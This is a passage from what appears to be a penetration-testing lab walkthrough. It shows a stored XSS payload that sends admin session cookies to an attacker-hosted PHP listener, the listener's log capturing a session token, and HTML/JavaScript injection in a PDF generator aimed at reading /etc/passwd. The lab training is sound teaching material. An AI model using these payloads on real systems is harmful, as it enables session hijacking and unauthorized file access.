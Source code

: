 
        2 )  script.js


        new Image().src='http://10.10.14.15:9200/index.php?c='+document.cookie

        
        Next, start a PHP web server on your attack host as follows:

        sudo php -S 0.0.0.0:9200


        Finally, create a new ticket and submit the following in the message field:

        "><script src=http://10.10.14.15:9200/script.js></script>



        $ sudo php -S 0.0.0.0:9200

        [Tue Jun 21 00:33:27 2022] PHP 7.4.28 Development Server (http://0.0.0.0:9200) started
        [Tue Jun 21 00:33:42 2022] 10.129.203.101:40102 Accepted
        [Tue Jun 21 00:33:42 2022] 10.129.203.101:40102 [200]: (null) /script.js
        [Tue Jun 21 00:33:42 2022] 10.129.203.101:40102 Closing
        [Tue Jun 21 00:33:43 2022] 10.129.203.101:40104 Accepted
        [Tue Jun 21 00:33:43 2022] 10.129.203.101:40104 [500]: GET /index.php?c=session=fcfaf93ab169bc943b92109f0a845d9

        Next, we can use a Firefox plugin such as Cookie-Editor to log in using the admin's session cookie.




        -tracking.inlanefreight.local


        The site at http://tracking.inlanefreight.local/ allows us to enter a tracking number and receive a PDF showing the status of our order. The application takes user input and generates a PDF document. Upon PDF generation, we can see that the Tracking #: field takes any input (not just numbers) that we specify in the search box before hitting the Track Now button. If we insert a simple JavaScript payload such as <script>document.write('TESTING THIS')</script> and click Track Now, we see that the PDF is generated and the message TESTING THIS is rendered, which seems to mean that the JavaScript code is executing when the webserver generates the document.


        We notice that we can inject HTML as well. A simple payload such as <h1>test</h1> will render in the Tracking #: field upon PDF generation as well. Googling for something such as pdf HTML injection vulnerability returns several interesting hits such as this post and this post discussing leveraging HTML injection, XSS, and SSRF for local file read. 

        (  https://blog.appsecco.com/finding-ssrf-via-html-injection-inside-a-pdf-file-on-aws-ec2-214cc5ec5d90    )

        (  https://namratha-gm.medium.com/ssrf-to-local-file-read-through-html-injection-in-pdf-file-53711847cb2f   )



        --Dealing with The Unexpected

        Let's dig through some of these writeups and see if we can produce a similar result and gain local file read. Following this post  (  https://namratha-gm.medium.com/ssrf-to-local-file-read-through-html-injection-in-pdf-file-53711847cb2f  ), let's test for local file read using XMLHttpRequest (XHR) objects and also consulting this excellent post (  https://web.archive.org/web/20221207162417/https://blog.noob.ninja/local-file-read-via-xss-in-dynamically-generated-pdf/  ) on local file read via XSS in dynamically generated PDFS. We can use this payload to test for file read, first trying for the /etc/passwd file, which is world-readable and should confirm the vulnerability's existence.
